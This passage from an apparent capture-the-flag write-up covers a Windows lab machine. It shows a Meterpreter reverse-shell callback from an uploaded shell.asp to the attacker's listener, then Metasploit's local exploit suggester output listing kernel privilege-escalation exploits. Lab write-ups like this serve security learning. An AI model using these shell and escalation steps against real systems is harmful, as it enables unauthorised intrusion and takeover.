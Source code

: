 And now going to ```10.10.10.15/shell.asp``` it gives me a meterpreter shell!

```
[*] Started reverse TCP handler on 10.10.14.27:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.10.10.15:1064) at 2020-01-01 21:15:54 -0500
```

You can access the meterpreter session by doing ```sessions -i 1```. When I do and check who I am, I am only ```nt authority\ network service``` which is not admin.

![image](https://user-images.githubusercontent.com/41026969/71649393-652b8680-2cdc-11ea-86cc-607a0d2458cb.png)

I went around the box and found some Administrator folder under ```C:\Documents and Settings``` and it turns out I cannot access it.

![image](https://user-images.githubusercontent.com/41026969/71649532-a3757580-2cdd-11ea-835b-7525dc873865.png)

##### Privesc

Next I turn to a local exploit suggester to privesc:

```
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf5 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
